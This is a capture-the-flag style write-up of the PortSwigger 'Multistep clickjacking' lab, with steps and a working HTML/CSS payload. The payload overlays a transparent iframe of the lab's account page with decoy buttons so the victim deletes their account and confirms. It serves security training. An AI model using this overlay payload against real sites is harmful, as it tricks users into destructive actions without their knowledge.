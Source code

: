 # Multistep clickjacking

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-multistep) has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against clickjacking.

## Reproduction and proof of concept

1. Log in to the `wiener:peter` account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the target website's user account page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value1` and `$side_value1` values of resp `330px` and `50px` to align the "Delete account" button with the "Test me first" decoy action.
* Initial `$top_value2` and `$side_value2` variables of resp. `285px` and `225px` to align the "Test me next" decoy action with the "Yes" button on the confirmation page. 

```text
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:285px;
		left:200px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a0100e003ab414dc0dbe6e7003a004a.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over **Test me first** to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the top and left properties inside the `firstClick` class of the style sheet. 
5. Click **Test me first** then hover over **Test me next** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties inside the `secondClick` class of the style sheet. 
5. Change "Test me first" to "Click me first", "Test me next" to "Click me next", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking9.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. The attacker will need to use two elements. An account is available with credentials `wiener:peter`.  _Note: The victim will be using Chrome so test the exploit on that browser._
